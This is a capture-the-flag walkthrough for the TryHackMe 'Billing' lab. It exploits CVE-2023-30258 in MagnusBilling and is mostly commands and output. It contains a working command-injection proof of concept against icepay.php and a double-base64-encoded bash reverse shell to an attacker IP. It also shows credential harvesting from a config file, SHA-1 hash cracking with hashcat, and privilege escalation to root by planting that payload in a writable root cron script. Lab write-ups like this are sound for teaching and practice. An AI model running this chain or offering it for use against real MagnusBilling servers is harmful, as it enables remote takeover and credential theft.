 # TryHackMe Billing
```
sudo nmap -sC -sV -p- 10.XX.XX.XX
```
> TCP
```python
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.XX.XX.XX/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
```
```sh
sudo nmap -sU 10.XX.XX.XX
```
> UDP
```python
123/udp open  ntp
```

### **MagnusBilling**

![image](https://github.com/RunasRs/Billing/assets/165502296/37201c95-7c72-4a32-8107-971f826e936c)

[**CVE-2023-30258**](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)

Commit : Vulnerability in [icepay.php](https://github.com/magnussolution/magnusbilling7/commit/ccff9f6370f530cc41ef7de2e31d7590a0fdb8c3)

  
```php
if (isset($_GET['demo'])) {

    if ($_GET['demo'] == 1) {
        exec("touch idepay_proccess.php");
    } else {
        exec("rm -rf idepay_proccess.php");
    }
}
if (isset($_GET['democ'])) {
    if (strlen($_GET['democ']) > 5) {
        exec("touch " . $_GET['democ'] . '.txt');
    } else {
        exec("rm -rf *.txt");
    }
}
```

**POC**
```sh
curl 'http://10.XX.XX.XX/mbilling/lib/icepay/icepay.php?democ=null;PAYLOAD;null'
```
**PAYLOAD**
```
echo 'bash -i >& /dev/tcp/10.11.XX.XX/7777 0>&1' | base64 | base64
```
```sh
echo%20"WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNUzVZV0M1WVdDODNOemMzSURBK0pqRUsK"|base64%20-d|base64%20-d|bash
```

# Exploitation
```sh
curl 'http://10.XX.XX.XX/mbilling/lib/icepay/icepay.php?democ=null;echo%20"WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNUzVZV0M1WVdDODNOemMzSURBK0pqRUsK"|base64%20-d|base64%20-d|bash;null'
```
* **Listening on kali.**

┌──(kali㉿kali)-[~]
```sh
nc -lvnp 7777
...
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ whoami
asterisk
```
* **Stabilization of our shell.**
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Search

* **If we follow the track of the cron task, we should find interesting things.**

┌── asterisk@Billing:/$
```sh
cat /etc/crontab

* * * * * root php /var/www/html/mbilling/cron.php cryptocurrency 
* * * * * root php /home/magnus/install/check.php
```
* **Let’s check what cron.php contains.**

┌── asterisk@Billing:/$
```sh
cat /var/www/html/mbilling/cron.php
```
```r
// Definicao do framework e do arquivo de config da aplicacao
$yii    = dirname(__FILE__) . '/yii/framework/yii.php';
$config = dirname(__FILE__) . '/protected/config/cron.php';
```
* **Let’s check what cron.php in the protected folder contains.**

┌── asterisk@Billing:/$
```sh
cat /var/www/html/mbilling/protected/config/cron.php
```
* **This one refers to res_config_mysql.conf, let’s see more in this file.**
```r
$configFile = '/etc/asterisk/res_config_mysql.conf';
```
* **Ok, we found credentials to log into the database.**

┌── asterisk@Billing:/$
```sh
cat /etc/asterisk/res_config_mysql.conf
```
```
[general]
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = XXXXXXXXXXXXXXXXX
```
```sh
mysql -h localhost -u mbillingUser -p
```
```sh
show databases;
```

```r
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mbilling           |
+--------------------+
```
```sh
use mbilling;
show tables;
```
```r
| pkg_user                    |
| pkg_user_history            |
| pkg_user_rate               |
| pkg_user_type               |
| pkg_voicemail_users         |
| pkg_voucher                 |
+-----------------------------+
```
* **The pkg_user table contains the user root password of the application (sha-1).**
```sh
select * from pkg_user;
```
```r
root | XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
* **We will have to crack the password with hashcat.**

┌──(kali㉿kali)-[~]
```sh
hashcat -m 100 hash.txt /home/kali/rockyou.txt 
```
* **Ok, we find a match !**
```r
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:PASSWD
```
* **Now we can check if magnus used his password to set up the application root account.**

* **The su function does not seem to work, we will have to try to connect in ssh.**

┌──(kali㉿kali)-[~]
```sh
ssh magnus@10.XX.XX.XX
```

* *If the attacker brute-forced the magnus password, his ip will be banned but asterisk has the power to remove his ban.*
```r
ssh: connect to host 10.XX.XX.XX port 22: Connection refused
```
┌── asterisk@Billing:/$
```
sudo /usr/bin/fail2ban-client status sshd
```
```R
- Actions
   |- Currently banned:	1
   |- Total banned:	1
   `- Banned IP list:	10.11.XX.XX
```
┌── asterisk@Billing:/$
```sh
sudo /usr/bin/fail2ban-client unbanip 10.11.XX.XX
```
---
┌──(kali㉿kali)-[~]
```sh
ssh magnus@10.XX.XX.XX
```
* **We can now display the contents of** */home/magnus/user.txt*
```css
THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

# PrivEsc

┌── magnus@Billing:/$
```sh
cat /etc/crontab
```
```r
* * * * * root php /var/www/html/mbilling/cron.php cryptocurrency 
* * * * * root php /home/magnus/install/check.php
```
* **A misconfiguration of the second cron job launches a php script as root that is writable by magnus.**

* **Just place a payload in the check.php script and listen on kali.**

┌──(kali㉿kali)-[~]
```SH
nc -lvnp 7777
```
**PAYLOAD**
*/home/magnus/install/check.php*
```php
<?php 
exec('echo "WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNUzVZV0M1WVdDODNOemMzSURBK0pqRUsK"|base64 -d|base64 -d|bash')
?>
```

┌──(kali㉿kali)-[~]
```sh
nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.11.XX.XX] from (UNKNOWN) [10.XX.XX.XX]
root@Billing:~# whoami
root
```
*/root/root.txt*
```css
THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
